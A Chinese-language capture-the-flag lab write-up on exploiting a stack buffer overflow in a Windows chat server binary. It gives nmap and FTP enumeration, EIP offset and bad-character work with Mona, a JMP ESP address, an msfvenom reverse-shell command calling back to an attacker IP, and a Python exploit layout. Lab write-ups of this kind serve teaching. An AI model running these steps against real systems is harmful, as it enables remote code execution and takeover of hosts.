








1.Information Gathering（信息收集）  

首先对目标主机进行端口扫描，识别开放端口及服务。  

bash nmap -sC -sV <target-ip>

扫描结果：

21/tcp   open  ftp

9999/tcp open  unknown

可以看到：

21端口：FTP

9999端口：未知服务

并且 nmap 报告显示 FTP 支持匿名登录。

2. Enumeration（枚举）

使用 FTP 登录目标服务器：

ftp <target-ip>

登录：

Username: anonymous
Password: anonymous

成功登录后列出目录：

dir

如果访问失败，可以开启被动模式：

passive

发现关键文件：

chatserver.exe
seefunc.dll

根据文件名推测：

chatserver.exe：聊天服务程序

seefunc.dll：依赖动态库

下载文件：

binary

get chatserver.exe

get seefunc.dll

3. Vulnerability Discovery（漏洞发现）

由于目标程序是 Windows 可执行程序，需要在 Windows 虚拟机 中调试。

使用工具：

Immunity Debugger

Mona.py 插件

将 chatserver.exe 和 seefunc.dll 放在同一目录。

在 Immunity Debugger 中运行程序。

观察发现程序监听：

Port 9999

使用 Kali 连接测试：

nc <win-ip> 9999

成功连接说明服务正常。

4. Exploitation（漏洞利用）
   
4.1 初步溢出测试

连接服务后发现：

username 输入有限制

message 没有长度限制

因此 攻击点为 message 参数。

生成测试输入：

python3 -c "print('A'*2500)"

发送后程序崩溃。

说明存在 缓冲区溢出漏洞。

4.2 获取 EIP 偏移量

使用 Metasploit pattern 工具生成测试字符串：

msf-pattern_create -l 2500

发送字符串后程序崩溃。

在 Immunity Debugger 查看：

EIP = 31704330

计算偏移量：

msf-pattern_offset -q 31704330 -l 2500

结果：

Offset = 2012

4.3 验证 EIP 控制

构造测试 payload：

"A"*2012 + "BBBB"

Python 示例：

payload = b"A"*2012 + b"B"*4

运行 exploit 后查看寄存器：

EIP = 42424242

说明攻击者可以 控制返回地址。

4.4 坏字符检测

配置 Mona：

!mona config -set workingfolder c:\mona\%p

生成字节数组：

!mona bytearray -b "\x00"

坏字符生成代码：

for x in range(1,256):

    print("\\x" + "{:02x}".format(x), end='')
    
print()

再次执行 exploit。

查看 ESP：

ESP = 0290EEA8

执行比较：

!mona compare -f C:\mona\chatserver\bytearray.bin -a 00A1EEA8

结果：

Bad Character: \x00

4.5 查找 JMP ESP

查找跳转到栈的指令：

!mona jmp -r esp -cpb "\x00"

得到地址：

625014DF

转换为 小端序：

b"\xdf\x14\x50\x62"

4.6 生成 Shellcode

使用 msfvenom 生成反弹 shell：

msfvenom -p windows/shell_reverse_tcp \

LHOST=10.13.16.58 \

LPORT=4444 \

-e x86/shikata_ga_nai \

-b "\x00" \

-f python \

-v payload

参数说明：

参数	作用

-p	payload 类型

LHOST	攻击机 IP

LPORT	监听端口

-e	编码器

-b	排除坏字符

-f	输出格式

4.7 构造最终 Exploit

最终 payload 结构：

buffer + return address + NOP + shellcode

示例：

buffer = b"A"*2012

retn = b"\xdf\x14\x50\x62"

nop = b"\x90"*16

payload = buffer + retn + nop + shellcode

5. Privilege Escalation（权限提升）

在攻击机启动监听：

nc -lvnp 4444

运行 exploit：

python3 exploit.py

成功获得 shell。

6. Capture the Flag（获取 Flag）

进入系统后读取 Flag：

type C:\Users\Administrator\Desktop\flag.txt

7. Attack Path Summary（攻击路径总结）

完整攻击流程：

1️ 使用 Nmap 扫描端口

2️ 发现 FTP 匿名登录

3️ 下载 chatserver.exe

4️ 使用 Immunity Debugger 调试程序

5️ 发现 message 参数存在缓冲区溢出

6️ 使用 Metasploit pattern 计算 EIP 偏移

7️ 使用 Mona 检测坏字符

8️ 使用 Mona 查找 jmp esp

9️ 使用 msfvenom 生成 shellcode

10 构造 exploit 并获得 shell

经验总结

标准缓冲区溢出利用流程

发现程序崩溃
↓
确定 EIP 偏移
↓
控制 EIP
↓
检测坏字符
↓
寻找 JMP ESP
↓
生成 Shellcode
↓
构造 Exploit

Mona 是 Windows BOF 利用中最重要的工具之一，可以快速完成：

坏字符检测

JMP ESP 查找

Pattern 分析

内存模块分析

常用命令：

!mona config

!mona bytearray

!mona compare

!mona jmp

Shellcode 生成注意事项

生成 shellcode 时必须：

排除 坏字符

使用编码器

保证 payload 大小适合缓冲区

示例：

msfvenom -b "\x00"

NOP Sled 的作用

NOP (\x90) 用于：

增加 shellcode 命中概率

防止地址偏移导致 exploit 失败

Windows BOF 利用关键点

成功利用通常需要：

可控 EIP

可执行栈

JMP ESP 指令

无坏字符 shellcode

参考链接教程：https://github.com/gh0x0st/Buffer_Overflow
